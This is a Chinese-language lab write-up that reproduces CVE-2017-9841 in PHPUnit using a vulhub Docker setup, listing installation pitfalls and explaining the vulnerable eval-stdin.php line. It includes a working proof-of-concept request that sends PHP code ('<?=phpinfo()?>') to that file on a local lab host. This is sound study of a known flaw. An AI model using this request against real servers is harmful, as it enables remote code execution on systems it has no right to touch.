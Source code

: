 漏洞环境使用vulhub  
复现分析参考：  
https://github.com/vulhub/vulhub/tree/master/phpunit/CVE-2017-9841  
https://stackoverflow.com/questions/43408604/php7-install-ext-dom-issue

# 漏洞复现中遇到的坑：  
0、执行命令“docker-compose build”后，还需执行它提示的命令“... composer require phpunit/phpunit:5.6.2; ...”（这在其他的漏洞复现环境中是少见的）  
1、执行命令“composer require phpunit/phpunit:5.6.2”时，会提示不建议使用root账户执行此命令，但不影响执行  
2、执行命令“composer require phpunit/phpunit:5.6.2”时，需要耐心的等待一会，时间可能较长（我就是因为没看到输出，以为没在下载，而耽误时间）  
3、执行完命令“composer require phpunit/phpunit:5.6.2”，会报错，提示需要“ext-dom”，解决方案是执行“apt install php-xml”  
4、执行完上述命令，再执行“composer require phpunit/phpunit:5.6.2”，还是报错，提示需要“PHP extension mbstring”，解决方案是执行“apt install php-mbstring”，至此，能够成功通过composer安装phpunit:5.6.2  
5、执行命令“docker-compose up -d”，启动环境，访问127.0.0.1:8080，却提示“403 forbidden”，解决方案是访问127.0.0.1，原因暂时不知，还可以尝试更改docker-compose.yml

# 漏洞利用
访问http://172.16.35.128/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php ，burp拦截请求包，直接在get请求的body中添加
```
<?=phpinfo()?>
```
成功执行phpinfo()

# 漏洞分析：  
phpunit是php中的单元测试工具，其4.8.19 ~ 4.8.27和5.0.10 ~ 5.6.2版本的vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php文件有如下代码：
```
eval('?>'.file_get_contents('php://input'));
```
eval：执行php代码  
file_get_contents：从第1个参数处获取内容，参数可以是url地址  
php://input：是一个只读的输入流，其实就是引用post请求中的内容
